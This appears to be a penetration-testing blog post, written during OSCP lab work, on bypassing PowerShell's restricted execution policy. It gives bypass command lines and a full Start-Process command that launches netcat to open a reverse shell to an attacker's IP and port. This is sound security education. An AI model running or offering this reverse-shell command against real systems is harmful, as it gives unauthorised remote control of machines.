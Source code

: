 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Beating Restricted Policies"
author: nanobyte
date:   2020-05-23
description: PowerShell for Penetration Testing, and how to beat restricted policies to run new processes
tags: PowerShell
---
```


Recently, while I was going for my Offensive Security Certified Professional (OSCP) certificate, I ran into a machine in the labs which had a restricted PowerShell. Simply stated, I could not enter into an interactive PowerShell session or run any PowerShell scripts. PowerShell has several execution policies which can be set on a system, and these execution policies determines which scripts can be run. By default, this is set to "restricted". From Microsoft, restricted "doesn't load configuration files or run scripts. The default execution policy Windows client computers."

However, there is an execution policy which, as penetration testers, we want to have set. That execution policy is "bypass", which states "nothing is blocked and there are no warnings or prompts." Luckily, we are able run a command or script with PowerShell's execution policy bypass set. Now, even though the default restricted policy is set, our commands will still run. To run a PowerShell command with bypass:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -Command "whoami"
{% endhighlight %}

Or, for shorthand:

{% highlight bash linenos %}
powershell -exec bypass -c "whoami"
{% endhighlight %}

Even though the system is restricted, PowerShell can still be leveraged! Let's build on this and take it another step further. When you enter a PowerShell session or run a script, you run it in the context of the current profile. I could check the PowerShell profile and see what is set. But by running commands without checking this first, I do not know what is within these profiles. Alternatively, for best practices, I can supply the No Profile flag which will run my script without using any profile:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -NoProfile -Command "whoami"
{% endhighlight %}

Or, another shorthand:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "whoami"
{% endhighlight %}

With this, I can run commands from a restricted PowerShell enviornment without any profile loading. We are almost at the end goal, to spawn a new process on the system. Luckily, PowerShell has the built in Start-Process cmdlet (command-let). A cmdlet is a lightweight command that can be used within a PowerShell enviornment. There is most likely a cmdlet for anything you wish to accomplish in PowerShell. In my case, I wanted to start netcat for a reverse shell.

Start-Process is a powerful cmdlet, and to better understand it visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7" target="_blank">docs.microsoft</a>. For my case, I needed to first define the program to spawn, followed by the arguments. Simply calling `Start-Process nc -e cmd.exe <IP> <PORT>` would fail here. To properly spawn this new process:
  
{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process $prog $args }"
{% endhighlight %}

Now, my command will call PowerShell with bypass as the execution policy, to run without any profile set, and run my Start-Process command, properly passing the $prog and $args variables. At this point, you might be asking, where did the ampersand come from? In PowerShell, the ampersand is a reserved character for a run call operator. This call operator is needed to force PowerShell to treat the text as a command and not a string, and execute it. For more information, please visit <a href="https://ss64.com/ps/call.html" target="_blank">ss64.com</a>.

And that is it, the above command will now spawn a new process, bypassing the restricted PowerShell execution policy to run my command! 
